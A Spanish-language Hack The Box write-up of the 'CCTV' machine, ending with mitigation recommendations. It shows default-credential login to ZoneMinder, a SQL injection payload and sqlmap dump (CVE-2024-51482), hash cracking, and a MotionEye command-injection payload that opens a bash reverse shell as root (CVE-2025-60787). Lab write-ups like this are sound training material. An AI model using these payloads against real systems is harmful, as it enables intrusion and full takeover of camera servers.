---

title: "WriteUp: CCTV | HTB"
date: 2026-07-19
draft: false
tags:
  - HTB
  - Linux
  - Web
  - ZoneMinder
  - CVE-2024-51482
  - MotionEye
  - CVE-2025-60787
categories:
  - WriteUps
author: MaxisFront
description: "HTB CCTV Machine | Desafío creado por: holdthefort"
image: CCTV_Shield.png
hideReadingTime: false
---
> Todos los derechos reservados a la **Hack The Box LTD**.




> Resumen

- Explotación de credenciales predeterminadas en `ZoneMinder`
- Aprovechamiento de `SQLi` boolenada y basada en tiempo (`CVE-2024-51482`)
- Explotación de `RCE` en `MotionEye` mediante bypass de tipo `client-side` (`CVE-2025-60787`)
- Recomendaciones de seguridad para prevenir y mitigar las vulnerabilidades de esta máquina.



#### Habilidades Empleadas

- Enumeración de puertos
- Uso de comandos básicos basados en GNU/Linux
- Explotación de `SQLi Boolean-based` y `time-based` con `SQLmap`.
- Crackeo de hashes mediante ataques de diccionario.
- Bypass de validaciones del lado del cliente (`JavaScript`).
- Aplicación de `Port Forwarding` vía `SSH` para acceder a servicios internos.
- Explotación de `RCE` en aplicaciones web.
 
#### Herramientas Utilizadas

- ping
- nmap
- caido
- sqlmap
- hashcat
- ssh
- ss
- nc

---
## Escaneo y Análisis de Vulnerabilidades

La plataforma `HTB` nos provee la `IP` objetivo, la cual es la `10.129.47.195`, dirección capaz de ser alcanzada conectándonos a través de la `VPN` que nos asigna la plataforma.

Verificamos si es posible entablar una conexión entre la máquina víctima y la nuestra:



  La ruta de la traza ICMP es exitosa. Así pues, el valor del TTL es igual a `63`, lo cual **_podría_** indicar que estamos frente a un OS `Linux/Unix` al ser próximo a 64.
### Reconocimiento de Puertos

Realizamos una enumeración  de los 65535 puertos `TCP` del sistema a través de la herramienta `Nmap`, enfocándonos en los de estado abierto:

``` bash
nmap -p- --min-rate 5000 -Pn -n -oN nmap-scan 10.129.47.195
```



> <= Importante =>
> En entornos empresariales, enviar grandes cantidades de paquetes `TCP`, `ICMP` o `UDP` suele provocar un congestionamiento  de la red, provocando un ataque `DoS` accidental o ser bloqueados por sistemas de monitorización.

### Enumeración de Puertos

Observamos que los puertos 22 `(SSH)`y  80 `(HTTP)` se encuentran activos. A partir e este punto podemos enumerar los servicios a través de `Nmap`. 

``` bash
nmap -p22,80,54321 -sCV -oN ports-enum 10.129.47.195
```



Tras un análisis de la enumeración de puertos, podemos agrupar los resultados en la siguiente tabla:

| Puerto | Servicio |                            Versión                             |                                                                         Notas                                                                         |
| :----: | :------: | :------------------------------------------------------------: | :---------------------------------------------------------------------------------------------------------------------------------------------------: |
|   22   |   ssh    | OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0) |          Versión desactualizada y potencialmente afectado por diversas vulnerabilidades (`RCE` , `DoS`, etc.). _No es el objetivo principal_          |
|   80   |   http   |                      Apache httpd 2.4.58                       | Versión desactualizada y potencialmente afectado por diversas vulnerabilidades (`DoS`, `HTTP Request Smuggling`, etc.). _No es el objetivo principal_ |


> Herramientas como `whatweb` (Comando) o `Wappalyzer` (Extensión del navegador) son de gran utilidad cuando deseamos conocer únicamente las tecnologías que hay en un servicio http.

A partir de la tabla podemos definir posibles vectores de aproximación al objetivo:

> - Puerto 22 (`SSH`): Servicio `OpenSSH` seriamente desactualizado, siendo usado posiblemente en una distribución `Ubuntu 22.04 LTS` (`Jammy Jellyfish`). Posible enumeración de usuarios a través del `CVE-2016-6210` y ataque de tipo `DoS` (`CVE-2015-5600`). A simple vista no son vías potenciales de acceso directo al equipo.
>
> - Puerto 80 (`HTTP`): Aplicación web hosteada por medio de un servicio `Apache httpd 2.4.58` desactualizado. Por medio de una enumeración web es posible enumerar otros servicios y posibles accesos al servidor víctima.

### Enumeración Web

Previo a acceder a la web del objetivo `CCTV`, se realiza un `mapping` de la IP objetivo a la página de manera temporal. Esto es posible modificando el archivo `/etc/hosts`:

```bash
sudoedit /etc/hosts
```



Tras acceder a `cctv.htb`, podemos observar que es una página web de dedicada a la administración de circuitos cerrados de televisión.



Podemos observar el botón `Staff Login`. Le damos click para que nos dirija al panel de autenticación. 



Observamos que se está utilizando la aplicación web `ZoneMinder`, la cual nos solicita credenciales de acceso.

|                                                                    `ZoneMinder`                                                                     |
| :-------------------------------------------------------------------------------------------------------------------------------------------------: |
| Servicio de administración de `CCTV` de código abierto. Si no fue configurada adecuadamente, es posible que aún tenga las credenciales por defecto. |

## Explotación

A partir de este punto nos enfocamos en intentar acceder a través de diversos métodos al sistema del equipo `CCTV`.

### Web: Uso de credenciales predeterminadas

Probamos a utilizar credenciales genéricas y obtenemos acceso tras insertar `admin` como usuario y contraseña.



Observamos que la versión del sistema CCTV `ZoneMinder` es la `1.37.63`. Por ello, indagamos en Internet en busca de alguna vulnerabilidad que nos dé alguna capacidad de interés. Finalmente, encontramos lo siguiente:



> Link del reporte de la vulnerabilidad: [GitHub - Security and quality | ZoneMinder v1.37.63](https://github.com/ZoneMinder/zoneminder/security/advisories/GHSA-qm8h-3xvf-m7j3)

### Web: CVE-2024-51482

La presente vulnerabilidad permite a un atacante realizar una `SQL Injection` de tipo booleano, aprovechándose de un `endpoint` creado para eliminar dispositivos.

La vulnerabilidad permite modificar el valor `tid`, el cual al manipularlo permite realizar solicitudes a la base de datos y a partir de su respuesta (En este caso, un valor 500 de tipo `Internal Server Error`) extraer datos de la `DB`.

Un valor esperado en el campo `tid` suele ser un número. Al realizar esto el servidor nos responde con el código `HTTP 200` (`OK`). Utilizamos la herramienta `Caido` para realizar una solicitud esperada.



Para comprobar si tenemos capacidad de realizar solicitudes SQL maliciosas, una opción es indicarle al servidor que espere una determinada cantidad de tiempo a través de la función `SLEEP()`, confirmado que el servidor no filtra correctamente las solicitudes.

Realizamos una solicitud SQL URL encodeado:

```sql
&tid=1%20AND%20(SELECT%201%20FROM%20(SELECT(SLEEP(5)))a)
```



Observamos que la respuesta `HTTP` nos arrojó el código `500`, así como que el tiempo de espera fue el esperado. Por ello, confirmamos que nuestra solicitud fue tramitada exitosamente por el servidor.

Para realizar una `SQLi` de manera eficiente, debemos de analizar la arquitectura de la DB de `ZoneMinder`. Por ello, tras una búsqueda rápida en la Wiki oficial descubrimos que en la base de datos  denominada `zm` (`MySQL`/`MariaDB`) existe la tabla `Users`, con las columnas `Username` y `Password`.

Realizamos un ataque de tipo `time-based blind SQL Injection` a través de la herramienta `SQLmap`:

```bash
sqlmap -u 'http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1' --dbms=MySQL --cookie="ZMSESSID=COOKIE" -D zm -T Users -C "Username,Password" --dump
```

> - `sqlmap`: Herramienta enfocada en automatizar la identificación y explotación de vulnerabilidades de tipo `SQLi`.
> - `u`: URL del sitio con el parámetro vulnerable.
> - `--dbms`: Tipo de gestor de base de datos.
> - `--cookie`: Cookie de sesión.
> - `-D`: Nombre de la base de datos objetivo.
> - `-T`: Nombre de la tabla objetivo.
> - `--dump`: Volcar los datos de las columnas especificadas en la terminal.

Tras ejecutar el `SQLmap`, se nos arrojan los usuarios y sus respectivas contraseñas con el tipo de cifrado `bcrypt`:

```shell
+------------+--------------------------------------------------------------+
| Username   | Password                                                     |
+------------+--------------------------------------------------------------+
| superadmin | $2y$10$cmytVWFRnt1XfqsItsJRVe/ApxWxcIFQcURnm5N.rhlULwM0jrtbm |
| mark       | $2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG. |
| admin      | $2y$10$t5z8uIT.n9uCdHCNidcLf.39T1Ui9nrlCkdXrzJMnJgkTiAvRUM6m |
+------------+--------------------------------------------------------------+
```

Al ser `bcrypt` un tipo de cifrado costo computacionalmente de crackear, optamos por utilizar `hashcat` para realizar un `Dictionary Attack` para el crackeo de las contraseñas:

```bash
hashcat -m 3200 -a 0 hashes.txt rockyou.txt
```



Descubrimos 2 credenciales de interés: `mark`:`opensesame` y `admin`:`admin`.

### SSH

Ingresamos por medio del servicio `SSH` con las credenciales del usuario `mark`:


```bash
ssh mark@cctv.htb # opensesame
```



Tras haber entablado acceso con el servidor víctima, proseguimos a indagar en los archivos de configuración e identificación de servicios visibles de manera local.

Inicialmente podemos intentar enumerar servicios que están escuchando a entradas desde la misma máquina (Es decir, que son visibles únicamente para el servidor):

```bash
ss -tulpn
```

> `ss` (Socket Statistics): Herramienta de monitoreo de sockets y puertos.
> `-tulpn`: Listar puertos `TCP`, `UDP`, en estado `Listening`, listando su nombre de servicio y número de proceso, así como indicar el número exacto de puerto y no intentar deducir el servicio.



Observamos que dentro de todos los servicios corriendo existe uno de particular interés (Considerando que existen servicios de administración de `CCTV`), el cual es el puerto `8765`, el cual podría estar corriendo por detrás `MotionEye` (O `MotionEyeOS`).

### MotionEye

`MotionEye` es una aplicación web enfocada a la gestión de cámaras la cual ha presentado diversas fallas de seguridad (Como el **`CVE-2025-60787`** o el `CVE-2025-47782`).

Entrando en detalle respecto a la vulnerabilidad `CVE-2025-60787`, se establece que permite a un atacante realizar una ejecución remota de comandos con los permisos del usuario que esté ejecutando el servicio de fondo. 

Para comprobar si el servicio de `MotionEye` está corriéndose y, a la par, ver qué usuario lo está ejecutando, podemos buscar el archivo que se encuentra en la ruta `/etc/systemd/system/motioneye.service`:



Observamos que el servicio `MotionEye` está siendo ejecutado por el usuario `root`. 

Una posible vía para obtener credenciales para el panel de autenticación es intentar leer el contenido del archivo `motion.conf`en la ruta  `/etc/motioneye/mmotion.conf`:



Observamos que las credenciales de administrador se encuentran en texto plano:

```txt
# @admin_username admin
# @admin_password 989c5a8ee87a0e9521ec81a79187d162109282f0
```

Ahora que ya tenemos un objetivo identificado y una posible vía para escalar privilegios, procedemos a acceder al panel web de `MotionEye`.

Para realizar lo anterior, debemos de realizar un `Port Forwarding` (También conocido como tunelización) a través de `SSH` por el puerto  `8765`, que es  donde corre el servicio de `MotionEye`:

```bash
ssh -L 8765:127.0.0.1:8765 mark@cctv.htb
```



Tras acceder al panel de administración, desplegamos las opciones del menú e identificamos que la versión `fronted` de `MotionEye` es la `0.43.1b4`, afectada por la vulnerabilidad `CVE-2025-60787`.

### Web: CVE-2025-60787

La vulnerabilidad `CVE-2025-60787` permite ejecutar comandos dentro del servidor a través de la manipulación del campo `Image File Name` en la sección `Still images`.

Antes de manipular el campo, primero debemos modificar una función de `JavaScript` del `Client-Side` (La cual mitiga valores arbitrarios insertados por el usuario):

Abrimos la consola del navegador (`F12`) y escribimos la siguiente línea de código:

```js
configUiValid = function() { return true; };
```



Tras ello, intentamos entablar una `Reverse Shell` escrita en Python insertando el payload dentro del campo `Image File Name`:

```python
$(python3 -c "import os;os.system('bash -c \"bash -i >& /dev/tcp/IP/4444 0>&1\"')").%Y-%m-%d-%H-%M-%S
```

Después, en `Capture Mode` seleccionamos la opción `Interval Snapshots` y en `Snapshot Interval` escribimos `10`.  Todo quedaría de la siguiente manera;



Como penúltimo paso, en nuestro equipo entramos en modo escucha a través de `Netcat` en el puerto `4444`:

```bash
nc -lvnp 4444
```

Finalmente, presionamos el botón `Apply` en la parte superior derecha del menú desplegable para aplicar los cambios.



Ahora tenemos una sesión de `bash` como el usuario `root`, tomando control total del sistema `CCTV`.
## Impacto

Un atacante con permisos de un usuario común como `admin` en `ZoneMinder` o `mark` a través del servicio `SSH` tiene capacidades de:

> - Acceso no autorizado y capacidad de manipulación de streams de vídeo en tiempo real del `CCTV`.
> - Capacidad de ejecutar `scripts` y establecer sesiones persistentes.
> - Capacidad de enumerar otros sistemas de la red y de realizar movimiento lateral.

El atacante con permisos de administrador obtiene las capacidades de:

> - Entablar persistencia entre sesiones y controlar el tráfico del servidor.
> - Capacidad de manipular y/o extraer datos de la DB.
> - Visualizar y aprovecharse de la información captada a través del `CCTV`.
> - Instalación de `backdoors` a nivel de kernel.

# Resumen

La máquina `CCTV` presentó una serie de vulnerabilidades críticas (**No todas expuestas en este WriteUp**) tales como uso de credenciales predeterminadas y posteriormente un `SQLi boolean-based` y `time-based`, así como falta de políticas `Zero Trust` y finalmente un `RCE` debido a una versión desactualizada de una aplicación web. Por ello,  continuación se expondrán los descubrimientos, su gravedad y pautas para evitar esta clase de fallas de seguridad.

### Descubrimientos


> Credenciales predeterminadas en `ZoneMinder`

| ID  |            **Vulnerabilidad**             |                  **Gravedad**                  |                                                                                Descripción                                                                                 |
| :-: | :---------------------------------------: | :--------------------------------------------: | :------------------------------------------------------------------------------------------------------------------------------------------------------------------------: |
| MF1 | CWE-1392: Uso de Credenciales por Defecto |  Crítica  | El panel de administración de `ZoneMinder` preserva las credenciales por defecto, permitiendo acceso completo al sistema de gestión del `CCTV` sin autenticación adicional |

 
Medidas inmediatas

> - Implementar una política de contraseñas robustas (12-16 caracteres, símbolos especiales...) para todos los usuarios.
> - Implementar bloqueos temporales de cuenta tras múltiples intentos fallidos de autenticación.
> - Forzar el cambio de credenciales por defecto tras la configuración inicial del sistema.




> `SQLi` en endpoint de `ZoneMinder`

| ID  |                                 **Vulnerabilidad**                                 |                  **Gravedad**                  |                                                                                                      Descripción                                                                                                       |
| :-: | :--------------------------------------------------------------------------------: | :--------------------------------------------: | :--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------: |
| MF2 | CWE-89: Neutralización Incorrecta de Elementos Especiales usados en un Comando SQL |  Crítica  | El parámetro `tid` del endpoint de eliminación de dispositivos no sanitiza adecuadamente la entrada, permitiendo inyecciones SQL de tipo booleano y basado en tiempo, permitiendo la extracción de datos de la DB `zm` |

 
Medidas inmediatas

> - Actualizar `ZoneMinder` a una versión actualizada que corrija la vulnerabilidad `CVE-2024-51482`.
> - Implementar un `Web Application Firewall` para detectar y bloquear patrones de inyecciones SQL.
> - Utilizar consultas parametrizadas en lugar de concatenar de manera directa los parámetros en las consultas SQL.




> `RCE` en `MotionEye`

| ID  |                                   **Vulnerabilidad**                                    |                  **Gravedad**                  |                                                                                    Descripción                                                                                     |
| :-: | :-------------------------------------------------------------------------------------: | :--------------------------------------------: | :--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------: |
| MF3 | CWE-78: Sanitización incorrecta de Elementos Especiales utilizados en un Comando del OS |  Crítica  | El campo `Image File Name` en la sección `Still Images` en `MotionEye` se puede bypassear la validación de `JS` del lado del cliente, permitiendo inyección de comandos en el `OS` |

 
Medidas inmediatas

> - Actualizar `MotionEye` a una versión actualizada que corrija la vulnerabilidad `CVE-2025-60787`.
> - Implementar validaciones `Server-Side` en el campo `Image File Name`, evitando depender de validaciones `JS` de tipo `Client-Side`.
> - Sanitizar y escapar adecuadamente todas las entradas del usuario antes de utilizarlas en el Sistema Operativo.




> Ejecución de Servicio con Privilegios Excesivos

| ID  |               **Vulnerabilidad**                |               **Gravedad**               |                                                                                 Descripción                                                                                 |
| :-: | :---------------------------------------------: | :--------------------------------------: | :-------------------------------------------------------------------------------------------------------------------------------------------------------------------------: |
| MF4 | CWE-250: Ejecución con privilegios innecesarios |  Alta  | El servicio `MotionEye` se ejecuta con permisos del usuario `root`, provocando que un actor malicioso pueda comprometer la máquina de manera inmediata a través de un `RCE` |

 
Medidas inmediatas

> - Configurar el servicio `MotionEye` bajo el principio de menor privilegio, ejecutando el servicio con un usuario que posea permisos mínimos.
> - Restringir el acceso a recursos estrictamente esenciales para cada usuario.




 >Uso de Contraseñas Débiles

| ID  |             **Vulnerabilidad**             |               **Gravedad**               |                                                                            Descripción                                                                            |
| :-: | :----------------------------------------: | :--------------------------------------: | :---------------------------------------------------------------------------------------------------------------------------------------------------------------: |
| MF5 | CWE-521: Requisitos de contraseñas débiles |  Alta  | El usuario `admin` en `ZoneMinder` y el usuario `mark` del servidor son vulnerables a un ataque de diccionario, permitiendo su crackeo en plazos de tiempo cortos |

 
Medidas inmediatas

> - Implementar una política de contraseñas robustas (12-16 caracteres, símbolos especiales...) para todos los usuarios.
